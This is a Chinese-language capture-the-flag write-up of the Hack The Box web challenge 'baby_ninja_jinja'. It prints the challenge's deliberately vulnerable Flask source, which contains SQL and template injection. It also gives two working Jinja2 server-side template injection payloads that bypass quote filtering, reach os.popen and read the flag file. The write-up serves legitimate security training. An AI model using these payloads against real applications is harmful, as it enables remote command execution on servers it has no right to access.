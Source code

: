 ```yaml
---
title: HTB-baby_ninja_jinja-web-challenge-wp
categories: [CTF,HTB]
tags: [web,python]

---
```

单纯的python ssti 已经是过去了,但是偶尔刷下还是有意思...<!--more-->

## 漏洞发现

进入页面，发现有一个输入接口：

![image-20220326224004255](/image-20220326224004255.png)

按下F12查看源码：发现提示有`/debug` 路由。找到了源码提示:

```python
from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools, sqlite3, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)

acc_tmpl = '''{% extends 'index.html' %}
{% block content %}
<h3>baby_ninja joined, total number of rebels: reb_num<br>
{% endblock %}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        get_db().cursor().executescript(f.read())

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()

def rite_of_passage(func):
    @functools.wraps(func)
    def born2pwn(*args, **kwargs):

        name = request.args.get('name', '')

        if name:
            query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report

            return render_template('welcome.jinja2')
        return func(*args, **kwargs)
    return born2pwn

@app.route('/')
@rite_of_passage
def index():
    return render_template('index.html')

@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=True)
```

发现在`rite_of_passage`函数的`born2pwn`调用里存在ssti：

```python
            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )
```

`render_template_string `的传参收到我们输入的name影响。

但是存在着两个问题:

1.无论输入什么都没用什么明显区别且有意义的回显。

2`{{`、`'`、`"`这几个符号被ban。

## 漏洞利用

![image-20220326230753091](/image-20220326230753091.png)

但是无意中发现，开了报错页面

![image-20220326232127657](/image-20220326232127657.png)

因此我们可以用include 和报错来回显我们输入内容。同时，用`request.args`来传递参数来传递字符串来绕过引号。

构造payload：

```
name={%25include%201.__class__.__base__.__subclasses__()[-6].__init__.__globals__.os.popen(request.args.xxx).read()|string%25}&xxx=cat%20f* 
```

、从而得到flag：

![image-20220326141147608](/image-20220326141147608.png)

## 其他思路

在查看其他大佬的思路时发现他们是利用`session.update`来更新session来回显。

`session.update`方法可以根据我们传入的字典来重新生成session，用法：

```python
session.update(dict)
//ps
session.update({'a':1})
```

于是构造payload：

```
name={%print%20session.update({dict(a=1)|list|last:1.__class__.__base__.__subclasses__()[-6].__init__.__globals__.os.popen(request.args.xxx).read()})%}&xxx=cat%20fA*
```

![image-20220326235131162](/image-20220326235131162.png)

解base64后得到flag

```shell
lexs@DESKTOP-MAKMNL3:~$ echo eyJhIjp7IiBiIjoiU0ZSQ2UySTBZbmxmYm1sdWFqUnpYMlF3Ym5SZlp6TjBYM0YxTUhRelpGOHdjbDlqTkhWbmFGUjl
DZz09In19.Yj82BA.RZT3ond24hjE5PZXd2P0P9CHTz|base64 -d
{"a":{" b":"SFRCe2I0YnlfbmluajRzX2QwbnRfZzN0X3F1MHQzZF8wcl9jNHVnaFR9Cg=="}}base64: invalid input
lexs@DESKTOP-MAKMNL3:~$ echo SFRCe2I0YnlfbmluajRzX2QwbnRfZzN0X3F1MHQzZF8wcl9jNHVnaFR9Cg==|base64 -d
HTB{b4by_ninj4s_d0nt_g3t_qu0t3d_0r_c4ughT}
```

## 参考文献

https://lexsd6.github.io/2020/11/27/%E5%85%B3%E4%BA%8Ejinja%E7%89%B9%E6%80%A7%E5%AF%B9ssti%E7%9A%84bypass%E7%9A%84%E5%BD%B1%E5%93%8D/

https://lexsd6.github.io/2020/03/27/python%20%E5%85%B3%E4%BA%8E%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E7%9A%84%E6%80%9D%E8%80%83/

https://www.zapstiko.com/baby-ninja-jinja-challenge-htb-by-raihan-biswas/